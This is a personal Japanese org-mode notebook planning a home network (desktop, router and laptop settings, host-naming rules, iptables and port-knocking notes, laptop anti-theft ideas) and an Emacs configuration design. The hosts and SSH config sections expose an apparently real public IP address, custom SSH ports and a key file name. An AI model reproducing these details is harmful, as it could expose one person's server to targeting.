- /usr/local      1.5G    ext3   defaults,nodev
- /home             6G    ext3
- /tmp            6.5G    ext3   defaults,nosuid,noexec,nodev 0 2

cf. [[http://www.debian.org/releases/stable/i386/apcs02.html.ja][Debian GNU/Linux インストールガイド- C.2. ディレクトリツリー]]
cf. [[http://www.debian.org/releases/stable/i386/apcs03.html.ja][Debian GNU/Linux インストールガイド- C.3. お勧めするパーティションルール]]

**** Host Name
- queen
# 命名規則は RFC1178 を参照。
# 一覧にしたときに見やすいように文字数を統一する。文字は 8 文字以内がよい。
# よく使われている用語を使わない。会話によくでてくるものは、どちらであるか判断がつかなくなる。
# 一台のマシンと同じ名にしてはいけない。 shop1,shop2,shop3 などと区別を数字だけすると台数が増えると煩わしくなる。
# 自分や人物の名前を付けない。会話の中で判断がつかなくなる。
# 違う綴りを使うな。綴りをわざと変えると英語の苦手な人にとって混乱を招く。
# ドメイン名を避ける。
# 数字で始まる名前を付けない。
# 大文字を使うな。

# ホスト名から機器がわかること。
# ホスト名から役割がわかること。
[候補]
- 天体
- 任天堂のキャラクター マリオ、ゼルダ、ポケモン、カービー、など役割に合わせてソフトを分ける。
- 元素名
- チェス (自宅ネットワーク用)
  King = Main server, Queen = Desktop, Bishop = laptop,
  Knight = USB, Rook = router, Pawn = テスト機
  Pawn には名前が付いている。 rook's Pawn,knight's Pawn,Bishop's Pawn,Queen's Pawn,King's Pawn
- 行政機関
  naikaku = Main Server, soumu = Mail Server, bouei = Router,
  zaimu = Data Server, monbu = Media Server, ...
  # 行政機関は長い目で見ると再編されることがあるので注意。
- 鳥の名前
*** Negative list
- BIOS のパスワードは簡単に解除できるので悪戯防止程度と考えておく。
*** memo
**** install 手順
- 最小構成で install en-utf
- xorg xfce4  xfce4-terminal
  chromium-browser chromium-browser-l10n
  emacs zsh subversion
  sudo xdg-user-dirs-gtk

**** setting
- # LANG=C xdg-user-dirs-gtk
***** sysctl.conf
net.core.rmem_max = 16777216
net.core.wmem_max = 16777216 

net.ipv4.tcp_wmem = 4096 87380 16777216
net.ipv4.tcp_rmem = 4096 87380 16777216 

net.ipv4.tcp_no_metrics_save = 1

net.ipv4.tcp_moderate_rcvbuf = 1

net.core.netdev_max_backlog = 5000

***** alsa mixing
- ~/.asoundrc

pcm.my_card {
   type hw
   card 1
   # mmap_emulation true
}

pcm.dmixed {
   type dmix
   ipc_key 1024
   #  ipc_key_add_uid false   # let multiple users share
   #  ipc_perm 0666           # IPC permissions for multi user sharing (octal, default 0600)
   slave {
   pcm "my_card"
   #   rate 48000
   #   period_size 512
   }
}

pcm.dsnooped {
   type dsnoop
   ipc_key 2048
   slave {
   pcm "my_card"
   #   rate 48000
   #   period_size 128
   }
}

pcm.asymed {
   type asym
   playback.pcm "dmixed"
   capture.pcm "dsnooped"
}

pcm.pasymed {
   type plug
   slave.pcm "asymed"
}

pcm.dsp0 {
   type plug
   slave.pcm "asymed"
}

pcm.!default {
   type plug
   slave.pcm "asymed"
}

***** sid
****** preferences
- /etc/apt/preferences.d/preferences_sid
Package: *
Pin: release a=stable
Pin-Priority: 700

Package: *
Pin: release a=testing
Pin-Priority: 80

Package: *
Pin: release a=unstable
Pin-Priority: 90

****** sources
- /etc/apt/sources.list.d/sid.list

** RO:router
   [ro:router (rook)]

*** Policy
*** Device
*** General
**** OS
***** Kernel

**** Host Name
	 - rook
# 命名規則は RFC1178 を参照。
# 一覧にしたときに見やすいように文字数を統一する。文字は 8 文字以内がよい。
# よく使われている用語を使わない。会話によくでてくるものは、どちらであるか判断がつかなくなる。
# 一台のマシンと同じ名にしてはいけない。 shop1,shop2,shop3 などと区別を数字だけすると台数が増えると煩わしくなる。
# 自分や人物の名前を付けない。会話の中で判断がつかなくなる。
# 違う綴りを使うな。綴りをわざと変えると英語の苦手な人にとって混乱を招く。
# ドメイン名を避ける。
# 数字で始まる名前を付けない。
# 大文字を使うな。

# ホスト名から機器がわかること。
# ホスト名から役割がわかること。
	   [候補]
	   - 天体
	   - 任天堂のキャラクター マリオ、ゼルダ、ポケモン、カービー、など役割に合わせてソフトを分ける。
	   - 元素名
	   - チェス (自宅ネットワーク用)
		 King = Main server, Queen = Desktop, Bishop = laptop,
		 Knight = USB, Rook = router, Pawn = テスト機
		 Pawn には名前が付いている。 rook's Pawn,knight's Pawn,Bishop's Pawn,Queen's Pawn,King's Pawn
	   - 行政機関
		 naikaku = Main Server, soumu = Mail Server, bouei = Router,
		 zaimu = Data Server, monbu = Media Server, ...
		 # 行政機関は長い目で見ると再編されることがあるので注意。

*** Boot
*** System
*** Security
**** iptables
## locale からのみ ssh 許可
	 /usr/sbin/iptables -A INPUT -s 192.168.1.0/24 -p tcp --dport 12316 -j ACCEPT
**** knockd
## when knocked port "1,2,3,1,6", wol & open iptabels foward 12316
	 [[file:~/mydoc/etc/negative_list::knockd で wol][negative_list]]
*** Service
*** Backup
*** ssh
	- 外部からの ssh に対して使えるコマンドを制限。

** Laptop BI
   [laptop:bi (bishop)]
*** Device/Machine Spec
	- カメラ内蔵 (盗難対策用)
	- GPS (カーナビ用)
	- Wireless LAN
	- Bruetooth
	- バッテリー : １８時間 (商品に記載されている駆動時間は実駆動時間で 5 割～ 7 割程度と思ったほうがよい。)
	- 衝撃に強い物
	- 付属ソフトがないものを選ぶ
	- 光学ドライブ

**** tmp
	 - OS
	 - Memory
	 - CPU
	 - キーボード
	 - マウス
***** Maker
	  - ノートパソコンは故障時にメンテナンスがしにくいので BTO ではなくメーカー物のほうがいいかもしれない。
	  - 候補 - hp lenovo 富士通
***** Display
	  - (サイズ)
	  - 光沢液晶
	  - (タッチパネル)
***** Storege device
****** SSD
*** Boot
**** BIOS
	 - CD/FDD/USB からの起動を禁止。
	 - Password 設定。
**** bootloader
	 - nomalmode
	 - quick start mode (最小構成)
	 - no network mode
	 - Secret mode (trap)
**** runlevel
**** 盗難対策
***** 盗難前対策
	  - パーティション暗号化

***** 盗難後対策
	  - 起動時に GPS 位置記録＆送信
	  - ノーマルモードで起動時、起動後に内蔵カメラでキャプチャしパケット送信。
		キャプチャがしっかり顔をとらえられるような仕組みを考える。たとえば、画面に読みにくい文字を表示するなどして画面に近づけさせる。
	  - Global IP を自宅サーバーに送信。

*** General
**** OS
	 -
***** Kernel

**** Host Name
	 - bishop
# 命名規則は RFC1178 を参照。
# 一覧にしたときに見やすいように文字数を統一する。文字は 8 文字以内がよい。
# よく使われている用語を使わない。会話によくでてくるものは、どちらであるか判断がつかなくなる。
# 一台のマシンと同じ名にしてはいけない。 shop1,shop2,shop3 などと区別を数字だけすると台数が増えると煩わしくなる。
# 自分や人物の名前を付けない。会話の中で判断がつかなくなる。
# 違う綴りを使うな。綴りをわざと変えると英語の苦手な人にとって混乱を招く。
# ドメイン名を避ける。
# 数字で始まる名前を付けない。
# 大文字を使うな。

# ホスト名から機器がわかること。
# ホスト名から役割がわかること。
	   [候補]
	   - 天体
	   - 任天堂のキャラクター マリオ、ゼルダ、ポケモン、カービー、など役割に合わせてソフトを分ける。
	   - 元素名
	   - チェス (自宅ネットワーク用)
		 King = Main server, Queen = Desktop, Bishop = laptop,
		 Knight = USB, Rook = router, Pawn = テスト機
		 Pawn には名前が付いている。 rook's Pawn,knight's Pawn,Bishop's Pawn,Queen's Pawn,King's Pawn
	   - 行政機関
		 naikaku = Main Server, soumu = Mail Server, bouei = Router,
		 zaimu = Data Server, monbu = Media Server, ...
		 # 行政機関は長い目で見ると再編されることがあるので注意。
	   - 鳥の名前

*** Setting Files
**** /etc/Hosts
	 219.62.120.21     king
	 192.168.1.122     home

**** ~/.ssh/config
	 Host king
     HostName 219.62.120.21
     Port 12316
     IdentityFile ~/.ssh/kagi

	 Host rook
     HostName 192.168.1.1
     Port 12317
     IdentityFile ~/.ssh/kagi

	 Host home
     HostName 192.168.1.122
     Port 12316
     User home
     IdentityFile ~/.ssh/kagi

	 Host *
     Controlmaster auto
     ControlPath /tmp/%r@%h:%p
     ServerAliveInterval 60#

*** Security
**** firewall
**** anti MITM
	 - arpwatch
*** etc
*** Negative list
	- BIOS のパスワードは簡単に解除できるので悪戯防止程度と考えておく。

** Emacs
*** 1. Introduction
    :PROPERTIES:
    :CUSTOM_ID: Introduction
    :END:

**** 1.1. Policy
     :PROPERTIES:
     :CUSTOM_ID: Introduction policy
     :END:

***** 1.1.1. この文書について

この文章は個人の emacs の設計について記載する。

*この文章の目標*

1) Simple に記載する。

2) 誰が見ても理解できるものが理想。

   泥棒が家に入っても、何処に何があるのかがすぐに理解できる
   ものは、システムとしてはすばらしいと思う。
   ※泥棒には、何よりも入られないようにすることが大事。

***** 1.1.2. Purpose

1) 設計目的 (なぜ設計が必要か。)

   設定や拡張時の目的、基準を明確化。
   良質の物を構築する為に、意思決定の判断材料とする。
   基準が明確でないことは必要性の有無が曖昧になる。
   また、時間を浪費する。
   月日と共に、導入や削除を繰返すと煩雑なものになりがち。
   よって、設計が必要。

2) 目標 (期待成果)

   統合開発環境として構築。
   有料ソフトを越えるものにする。
   開発、文章作成時間の削減。
   迅速かつ正確な文章、コーディング。
   コードを読むスピードを上げる。

   - 短期
     + 一日 1000 行 coding

   - 中期
     + 一日 2000 行 coding

   - 長期
     + 一日 3000 行 coding

3) 基準

   設計の定期的見直し。 (1 年)

   開発に関係のない機能は最小限にとどめる。
   余計な機能で遅くなることがないように。

**** 1.2. Overview
     :PROPERTIES:
     :CUSTOM_ID: Introduction Overview
     :END:

***** 1.2.1. System Environment

想定環境
|---------|
| PC      |
|---------|
| Desktop |
| Laptop  |
|---------|

|---------------|
| Display Size  |
|---------------|
| Multi Display |
| 1680 x 1050   |
| 1280 x 1024   |
| (13 inch)     |
|---------------|

|---------|
| OS      |
|---------|
| windows |
| linux   |
| mac     |
|---------|

|---------|
| Version |
|---------|
|      22 |
|      23 |
|      24 |
|---------|

|----------|
| Terminal |
|----------|
| CUI      |
| GUI      |
| putty    |
|----------|

***** 1.2.2. Construction Directory
    :PROPERTIES:
    :CUSTOM_ID: Construction Directory
    :END:


# file 名に"init" を使わない。 anything などの補完時に干渉。
# 5 つ以上ネストする場合はディレクトリの再構成を検討。
# lisp は elisp/ にまとめて置く。 load-path, loaddef, byte-compile, grep が楽になる。
# 名前は、 suffix に"_e"を付ける。
# これには 2 つの効果が期待できる。
# 1 つ目は、名前の重複を避け削除などのヒューマンエラーを回避できる。
# 2 つ目は、補完時に混乱を避けることができる。
# 例えば prefix に名前をつけると、 edata, elisp, evar, ebackup, ebin, eusr...
# shell などの補完は先頭の文字から入力していくので煩雑になりがち。
# また、視認性もさがる。


#+BEGIN_EXAMPLE
.emacs.d/
  +--- init.el
  +--- elisp/
  |     +--- start.d/
  |	    +--- plugin/
  |     +--- mylisp/
  |
  +--- data_e/
  |     +--- ahk/
  |     +--- img/
  |     +--- ref/
  |     |     +--- rfc/
  |     +--- tool/
  |     +--- snippets/
  |     +--- auto-insert/
  |     +--- code/
  |     |     +--- umemo/
  |     |     +--- python/
  |     |     |     +--- interpreter/
  |     |     +--- elisp/
  |     |     |     +--- scratch/
  |     |     +--- C C++/
  |     |     +--- assembly/
  |     |
  |     +--- bookmarks
  |     +--- abbrev_defs
  |     +--- words
  |
  +--- var_e/
  | 	+--- thumbs/
  | 	+--- server/
  | 	+--- auto-save-list/
  | 	+--- recentf
  | 	+--- woman_cache.el
  | 	+--- save-place-file
  | 	+--- emacs-desktop
  | 	+--- ac-comphist.dat
  | 	+--- pylookup.db
  |
  +--- backup_e/   # created backups by emacs (no revision)

#+END_EXAMPLE

主な directory & file
|---------------------------------+-----------------------------------------------------|
| DIRECTORY/FILE                  | DESCRIPTION                                         |
|---------------------------------+-----------------------------------------------------|
| elisp/                          | 主に拡張や設定 file                                 |
|---------------------------------+-----------------------------------------------------|
|---------------------------------+-----------------------------------------------------|
| ----- start.d/                  | 起動時に呼ばれる設定 file の入った directory        |
|---------------------------------+-----------------------------------------------------|
| ---------- subroutines_start.el | 起動に必要な subroutines 。 byte-compile でも使う。 |
|---------------------------------+-----------------------------------------------------|
| ---------- 00_                  | Primary essensial                                   |
|---------------------------------+-----------------------------------------------------|
| ---------- 20~60_               | Extension  sufix: _ex_start.el                      |
|---------------------------------+-----------------------------------------------------|
| ---------- 70~80_               | Major mode  sufix: _mode_start.el                   |
|---------------------------------+-----------------------------------------------------|
| ---------- 90_                  | Final                                               |
|---------------------------------+-----------------------------------------------------|
| ----- plugin/                   | 拡張 file 保管場所                                  |
|---------------------------------+-----------------------------------------------------|
| ----- mylisp/                   | 自作 elisp                                          |
|---------------------------------+-----------------------------------------------------|

|--------------------+----------------------------|
| data_e/            | Version 管理する file      |
|--------------------+----------------------------|
|--------------------+----------------------------|
| ----- ref/         | Document file              |
|--------------------+----------------------------|
| ----- code/        |                            |
|--------------------+----------------------------|
| ----- snippets/    |                            |
|--------------------+----------------------------|
| ----- auto-insert/ |                            |
|--------------------+----------------------------|
| ----- tool/        |                            |
|--------------------+----------------------------|

|--------+------------------------------|
| var_e/ | Version 管理しない file      |
|--------+------------------------------|

|-----------+-------------------------|
| backup_e/ | emacs で編集した backup |
|           | Version 管理しない      |
|-----------+-------------------------|

***** 1.2.3. Data list and 格納方法
- system all file db
- filecache

|-------------+--------------------|
| File name   | Location           |
|-------------+--------------------|
| abbrev_defs | data_e/            |
| Bookmarks   | data_e/            |
| umemo       | data_e/code/umemo/ |
| words       | data_e/            |

****** Var_e
   :PROPERTIES:
   :CUSTOM_ID: var_e
   :END:

|----------------------+----------+-----------------------------------------|
| File name            | Location | Format                                  |
|----------------------+----------+-----------------------------------------|
| recentf              | var_e/   |                                         |
| ac-comphist.dat      | var_e/   |                                         |
| kill-ring-save.el    | var_e/   | (setq kill-ring '("text" "other text")) |
| pylookup.db          | var_e/   |                                         |
| savehist             | var_e/   | (setq ... ...)                          |
| cursor-place-save.el | var_e/   |                                         |
| woman_cache.el       | var_e/   | (setq ... ...)                          |
| auto-save-list/      | var_e/   |                                         |
| emacs-desktop        | var_e/   |                                         |

****** Log
   :PROPERTIES:
   :CUSTOM_ID: Emacs.log
   :END:

|-------------------+-------------+---------+-----------------------------------------------------------------|
| File name         | Location    | Rotate  | Format                                                          |
|-------------------+-------------+---------+-----------------------------------------------------------------|
| Emacs_%Y_%m.log   | data_e/log/ | 1 month | time:{Start, Exit}:user:system:{Debug, Multi, Default}:loadtime |
|                   |             |         | time:{open, save, close}:filename                               |
| kill-ring-log.log | data_e/log/ | 1 month | ("killed text" file-name line time)                             |
|                   |             |         |                                                                 |


|-----------------------+---------------------------------+--------+----------|
| File name             | Location                        | Rotate | Format   |
|-----------------------+---------------------------------+--------+----------|
| scratch_%Y.log        | data_e/code/elisp/scratch/      | year   | org-mode |
| py_interpreter_%Y.log | data_e/code/python/interpreter/ | year   | org-mode |

***** 1.2.4. Network
***** 1.2.5. Alias Command

|----------+-----+--------------+-----------------------|
| Function |     | Alias        | Description           |
|----------+-----+--------------+-----------------------|
| tabify   | \=> | space-to-tab | space から tab に変換 |
| untabify | \=> | tab-to-space | tab から space に変換 |
|----------+-----+--------------+-----------------------|

*** 2. Startup & Exit Emacs
    :PROPERTIES:
    :CUSTOM_ID: Startup & Exit Emacs
    :END:

**** 2.1. Startup

1) init.el

   - Header
     + Directory 構成
     + Changelog

   - load される file を 1 つに結合する。
     + file 名: all_in_one_start.el
     + 保存先: var_e/

2) Time

   - 3 秒以内

3) Load Method

   - 独自の起動オプション

   - 起動に必要な subroutines を load する。

   - Multi process load

   - Setting Environment
     + [[#path][Path の設定]]
     + directory 確認と構築。
     + source の方が新しかったら byte-compile するかどうか問合せる。
     + loaddef_start.el がなければ作成。
       * elisp/ 以下の autoload を取得。
       * byte-compile する。

   - Directory 内の prefix の付いた file を順番に load する。
     |--------+------------------------------------|
     | prefix | Description                        |
     |--------+------------------------------------|
     |     00 | Primary essensial                  |
     |     02 | base_start.el                      |
     |     04 | bindings_start.el                  |
     |     06 | loaddefs_start.el                  |
     |     08 | simple_start.el                    |
     |--------+------------------------------------|
     |  20~60 | Extension  sufix: _plugin_start.el |
     |  70~80 | Major mode  sufix: _mode_start.el  |
     |--------+------------------------------------|
     |     90 | Final                              |
     |     92 | face_start.el                      |
     |     98 | final_start.el                     |
     |--------+------------------------------------|

   - System に適した prefix file を読み込む。
     + OS: windows_, linux_, mac_
     + version: emacs22, emacs23, emacs24
     |---------+------------------|
     | prefix  | Description      |
     |---------+------------------|
     | windows | Windows System   |
     | linux   | Linux System     |
     | mac     | Mac System       |
     |---------+------------------|
     | emacs22 | Emacs Version 22 |
     | emacs23 | Emacs Version 23 |
     | emacs24 | Emacs Version 24 |
     |---------+------------------|


   - Debug
     + Debug 時は、 benchmark をとる。
     + 通常起動の場合は total time のみ。
     + 統計に使えるようにする。

4) default.el
   ;; default.el は .emacs よりも後になってから読み込まれる
   ;; 読み込まないようにする
   ;; (setq inhibit-default-init t)
   ;; after-init-hook を使うのも有効
   default.el があれば読み込むかどうか確認をする elisp を書く。

5) 起動後の表示

   - 画面の 9 割を frame で埋める。
   - 分割表示。
     | *Messages* | *scratch* |
   - Error があれば Error buffer 表示。
   - auto-save-file があれば、開く。
   - 終了時に開いていた buffer の link 付き一覧を作成。

6) [[#Running%20time][起動／終了 log]]

7) 遅延 load

   - init.el 以降の autoload は、遅延 load する。
   - 遅延 load で設定した lisp をコマンドでまとめて load 。

**** 2.2. Exit

1) Prompt

   - process 終了, file 保存の確認はしない。

2) Cleanup

   - 必要であれば Prompt 表示し byte-compile する。
   - loaddef が無いか、若しくは elisp/ 以下の file よりも古
     ければ、 Prompt を表示し loaddef を update 。

3) Check Next Safety Run

   - 次回の起動が無事に行われるか確認。
     :: emacs を起動したままもう 1 つ emacs を開き
     無事に起動できなければ、そのまま終了してもいいかどうか
     prompt を出す。

4) [[#Running%20time][起動／終了 log]]

**** Server & Daemon
**** --debug-init
**** tmp

- dumping
  http://www.emacswiki.org/emacs/DumpingEmacs
*** 3. Environment
**** Path
     :PROPERTIES:
     :CUSTOM_ID: Path
     :END:

***** Load Path

- recursive "~/.emacs.d/elisp/"

***** Exec Path
***** Info Path
**** 日本語

- 文字コード

- 現在の文字コード設定を調べる

- 文字コードを指定する

- 日本語入力
  + ATOK
  + mozc
  + canna

- 英単語 補完 翻訳

**** Encoding
- AutoCodingAlist
  http://www.emacswiki.org/emacs/AutoCodingAlist
*** 4. Files
    :PROPERTIES:
    :CUSTOM_ID: Files
    :END:

**** 3.1. Open

最速で見つけて開く

1) Find Method
   - anything
   - dired
   - minibuffer
   - Drag and Drop
   - Cursor 位置の File ・ URL を開く

2) Open from list

   - list の取扱
     + list に binary file を含まない。 Command で切替。
     + 拡張子ごとに色分け
     + 対象から外れた箇所は見えにくくする。

   - Data Base

     + All file
     + 起動時に DB があるか確認。
       無いか古ければ、 idle-time に DB 作成コマンドを登録。
     + midnight に自動で作成。
     + windows では everything の DB を利用。
     + 更新間隔: 24 時間
       保存先: var_e/

   - Filecache
     + 非同期で update
     + 起動時に idle-time に cache 作成コマンドを登録。
     + cache 対象
       * elisp/
       * plugin/
       * mylisp/
       * start.d/
       * data_e/code/
       * data_e/snippet/
     + 保存先: var_e/

   - History

   - Current Directory

   - Bookmark

     + 保存先: data_e/

   - Find command

     + find command で listup

3) まとめて開く

   - list で mark した file 。
   - Bookmark
   - Current Directory

4) Remote file :: 簡易に remote file を開く

   - [[#remote%20emacs][Remote file]]

**** 3.2. Save
***** 3.2.1. Command

- すべての buffer を保存する。

- Rename
  + rename 前の file を削除するかどうか prompt

***** 3.2.2. Before Save

1) 表題を自動的にファイル名にする
2) テキスト整形 [掘り下げる必要あり miss-typecheck
   delete-last-white-space etc..]

***** 3.2.3. After Save

[保留]
- chmod +x
  + http://www.emacswiki.org/emacs/MakingScriptsExecutableOnSave

***** 3.2.4. Backup

*Emacs で対応できるもの*

1) ソフト要因の障害対策

   - 主な障害。
     |----+---------------------------------------|
     | 1. | 編集中の buffer の損失。 Crash & 停電 |
     | 2. | 削除                                  |
     | 3. | 上書き                                |
     |----+---------------------------------------|

   - [[#Version%20Control][Version Control]]
     対応できる障害: *2. 削除* *3. 上書き*

   - Auto-save
     対応できる障害: *1.編集中の buffer の損失。 Crash & 停電*
     Control Auto-save
     do-auto-save
     auto-save-interval

   - backup 場所を一箇所にまとめる。
     /tmp 等は、再起動すると削除されるので NG!! 停電などに弱
     い。一箇所にまとめるので file の location を付加する。
     ex. ~/.backupdir/!root!home!.bashrc


2) ハード要因の障害対策

   - 主な障害。
     |----+------------|
     | 1. | HDD の故障 |
     |----+------------|

   	 + Remote Version Control
       SVN で Remote Machine にコミット
       対応できる障害: *1.HDD の故障*

   	 + Remote Machine に Mirroring
       対応できる障害: *1.HDD の故障*

3) 外的要因の障害対策

   - 主な障害
     |----+------|
     | 1. | 紛失 |
     | 2. | 盗難 |
     | 3. | 災害 |
     |----+------|
     すなわち、記憶媒体を失う。
     ハード要因に近い。

   	 + [[#cryptfile][Crypt File]]
       対応できる障害: *2.盗難*

4) 復元

   - crash して auto-save された file
     + 一覧表示
     + 比較
     + すべて破棄するコマンド
     + すべて tmp directory に移動するコマンド
     + http://www.emacswiki.org/emacs/RevertBuffer

****** Version Control
    :PROPERTIES:
    :CUSTOM_ID: Version Control
    :END:

     - 一覧表示
     - 比較
     - 最後に Version Control された file に戻る。
     - file 編集時その buffer 上で commit log を書く。

******* Local

初セーブは、 old file として backup
以後は、各セーブごとに、 new file として backup
- save した回数で挙動を変える。 [保留]
  (setq buffer-backed-up nil) と C-u C-u C-s を使う。
mode-line に local vc の revision number を表示
info 32.1.2 Version Control and the Mode Line

******* Remote Repositories [保留]
***** 3.2.5. Crypt File
      :PROPERTIES:
      :CUSTOM_ID: cryptfile
      :END:

**** 3.3. File Handling
***** Dired

1) Base

   - tab 化
     dired grouping tab 化する

   - dired color
     + .zshrc の設定に準拠

   - dired launch

   - mode-line
     + Full path 表示
     + line, column 非表示

   - dired auto refresh

2) Files Infomation

   - File Size
   - File Permission
   - Time Stamp
     + Modification time
     + Access time
     + Change Status time
   - Disk space
   - Current Directory Total Size
   - Select Directory Total Size
   - Count Current Directory File
   - Count Select Directory File
   - Owner & Group

3) Sort

   - 名前
   - Size
   - 日時
   - 種類

4) Change things

   - Rename
   - Permission
   - Time Stamp
   - Change Owner & Group
     http://www.emacswiki.org/emacs/SudoSave
   - Attribute 変更
   - Format
     + ファイルの文字コードを一括変換
   - File format change
     + excel, word powerpoint pdf etc...
   - 切取り貼り付けで file を move (x-finder like)

5) Delete

   - Move to system trash

6) Archive
   - tar/lzh の内容表示/ 展開

7) Metadata

   - file tag 付け

8) Misc
   + dired から印刷
   + dired から関連付けられたソフトで開く
   + ファイルを開く時にショートカットを辿る
     http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=findfile%20symlink
   + file を一つにまとめる。
   + dired で Windows のリンクを扱う ― w32-symlinks
     http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dired%20fiber
   + diredPlus
     http://www.emacswiki.org/emacs/DiredPlus
**** 3.4. Convert

- word to text http://www.emacswiki.org/emacs/UnDoc
- pdf to text http://www.emacswiki.org/emacs/UnPdf
- xls to text http://www.emacswiki.org/emacs/UnXls

**** tmp
+ ido.el 検討

*** 5. Buffer
    :PROPERTIES:
    :CUSTOM_ID: buffer
    :END:

**** 4.1. Handling

1) Switch Buffer

   - 速度優先

     + 特定の Key Command に Switch/Find-file を定義。
     + 長押し切替

   - 曖昧

     + iswitchb

     + Cycling
       * F9 で buffer を cycling する
   	   * BufferRing
   	     - http://www.emacswiki.org/emacs/BufferRing
       * http://www.emacswiki.org/emacs/ControlTABbufferCycling
       * http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=cycle%20buffers
       * http://www.mir2.org/igor/emacs/pc-bufsw.html

     + バッファ内の文字でバッファを切り替え

   - 正確性優先

     + バッファリストの取得

     + 常に buffer リストを表示して置く window
       buffer が追加されたり削除されたら自動で更新

2) Rename Buffer

   - wdired のように rename

3) Delete Buffer

   - 自動削除
     + tempbuf
   - 最後に閉じた buffer を復元

4) Buffer List の操作

   - 指定した buffer を tab にスタックする。
   - tag 付

5) Clone Buffer

**** 4.2. Attribute

1) Local Variable

   File Local Variable
   - 接頭辞 -*- ~ -*-
     Major mode のみ設定する。
     接尾辞に major mode を指定するよりもすこし速い。

   - 接尾辞
     "^L" 接尾辞を書く前に改ページを挿入する。
     最後に file 名を挿入

*File Local Variable でよく使う変数*
(ref. http://www.kmc.gr.jp/~tak/memo/emacs-local-variable.html)
|-------------------+----------------------------------------------------------------------|
| mode              | emacs-lisp, python                                                   |
|-------------------+----------------------------------------------------------------------|
| coding            | utf-8, euc-jp                                                        |
|-------------------+----------------------------------------------------------------------|
| backup-inhibited  | t,nil                                                                |
|-------------------+----------------------------------------------------------------------|
| read-only         | t,nil                                                                |
|-------------------+----------------------------------------------------------------------|
| fill-column       | オートフィル (自動折り返し) を行う桁位置を数字で指定します。         |
|-------------------+----------------------------------------------------------------------|
| compile-command   | M-x compile で実行されるシェルコマンドを文字列で指定します。         |
|                   | この変数の名前は -command で終わっていますが、                       |
|                   | 標準でプロパティ safe-local-variable が設定されていて文字列であれば  |
|                   | 自由に値を設定できます。                                             |
|-------------------+----------------------------------------------------------------------|
| version-control   | 番号つきバックアップファイル (foo.c.~1~ など) の作り方を制御します。 |
|                   | t なら常に作り、 nil なら既に番号つきのバックアップファイルがある    |
|                   | 場合のみ作ります。 never に設定すると全く作りません                  |
|                   | (foo.c~のような通常のバックアップファイルを作ります) 。              |
|-------------------+----------------------------------------------------------------------|
| kept-new-versions | 番号つきバックアップファイルを作るとき、                             |
| kept-old-versions | 際限なくバックアップファイルが増えるのを防ぐために Emacs             |
|                   | は新しい方、または古い方から一定数のファイルを残して削除します。     |
|                   | このとき残すファイルの数を指定するための変数です。                   |
|-------------------+----------------------------------------------------------------------|


2) Hide Stuff

   - outline
     + 特定の file を Open 時に outline で表示する。
     + Commant は隠さない。
     + document hide show
     + region hide show

3) Misc

   - Protect
     kill buffer されないようにする

   - ファイルを開く/ 保存/ 読み込み直しを簡単に ― disk
     他のソフトが開いている file を編集したら自動で開きなおす。

   - 内容の無いファイルを削除
     http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=delete%20nocontents

   - 開いている file を root の権限に変更する。

***** View
     :PROPERTIES:
     :CUSTOM_ID: view
     :END:

読込専用
コードや文章を読むのに便利な機能を搭載する。

- 片手で操作できるようにする。
  + Space を Ctrl にする。

- Command
  + 縦、横のハイライト
  + 不可視文字を表示
  + 書込み失敗後、 読込専用を解除して失敗時の command を実行。
  + Cycle buffer move
    * file buffer のみ移動する。
    * view mode で other-window した場合移動先が
      view-mode でなければ view-mode にする。
  + 全ての file buffer を view mode にする。

- Mode-line の色を変更。
- 書込みミス時に error 音

**** 4.3. Minibuffer

- find-file minibufer のコマンドで分岐

  + find-file-other-window
  + find-file-other-frame
  + バイナリで編集する
  + root の権限で開く

- M-x の補完を iswitchb のようにしたい ― mcomplete

- 不要時にはデフォルト値を表示しない
  http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=minibuf-eldef

- [[#minibuffer%20history][Minibuffer history]]

**** 4.4. Diff
***** Diff File
***** Diff Buffer
***** Diff Directory
***** Diff Hash
**** tmp

- auto-mode-alist
  + excel word pdf
  + archive mode
    * http://www.emacswiki.org/emacs/ArchiveMode

- ShadowFile.el
  http://www.emacswiki.org/emacs/ShadowFile

- grep-edit
  http://d.hatena.ne.jp/rubikitch/20081025/1224869598

- moccur-edit

*** 6. Keybind
    :PROPERTIES:
    :CUSTOM_ID: Keybind
    :END:

**** 5.1. Policy

- Ctrl-[数字]

- 移動は独立 key 若しくは、１ストローク。

- カーソルキーは使わない

- 打数よりも速度優先。
  ストロークの打数が少く、早ければ其の限りではない。

- コマンド統合
  条件分岐させてコマンドを統合できるものは統合する。
  優等席の key を有効活用する。

- 連打が必要なコマンドは独立キー 若しくは、１ストローク。

- console
  http://www.emacswiki.org/emacs/ConsoleKeys

*Change*
|-------------+-----+--------------|
| Old key     |     | New key      |
|-------------+-----+--------------|
| Caplock     | \=> | Ctrl         |
| 無変換      | \=> | Alt          |
| 変換        | \=> | Backspace    |
| Space       | \=> | Space & Ctrl |
| Shift_Right | \=> | 半角/ 全角   |
| Alt_Right   | \=> | Hyper        |
| 半角/ 全角  | \=> | ESC          |
| ";" "+"     | \=> | "-" "="      |
| "-" "="     | \=> | ";" "+"      |
|-------------+-----+--------------|

*Self*
|------+-----------------------------------------------------|
| key  | Description                                         |
|------+-----------------------------------------------------|
| a~z  | self-insert                                         |
| A~Z  | Programming mode では前後の文脈から入力内容の分岐   |
| 0~9  | http://www.emacswiki.org/emacs/OpeningQuote         |
| 記号 |                                                     |
|------+-----------------------------------------------------|

*Function*
home position から離れているが、独立した key なので連打できる。
|----------+-------------|
| Function | Description |
|----------+-------------|
| F1 ~ F4  | Macro 系    |
| F5 ~ F8  | 移動系      |
| F9 ~ F12 | その他      |
|----------+-------------|

*Modifier*
|----------+--------------|
| Modifier | Description  |
|----------+--------------|
| Control  |              |
| Shift    |              |
| Alt      |              |
| Super    | Heavy Script |
| Hyper    | Test keybind |
|----------+--------------|

*Prefix*
|--------+--------------------|
| prefix | Map                |
|--------+--------------------|
| C-x    | Misc               |
| C-c    | Major Monor        |
| C-e    | Edit               |
| C-f    | Universal Argument |
| C-:    | Switch Buffer      |
|--------+--------------------|

*ストローク*
編集コマンド は１ストロークが望ましい。
右手、左手を交互に打つ keybind は入力が速い。
片手で 2 ストローク入力は、同じ key でない限り遲い。
|---+-----------------------+----------------------------------+----------------+---------|
|   | Key                   | Description                      | Feature        | Example |
|---+-----------------------+----------------------------------+----------------+---------|
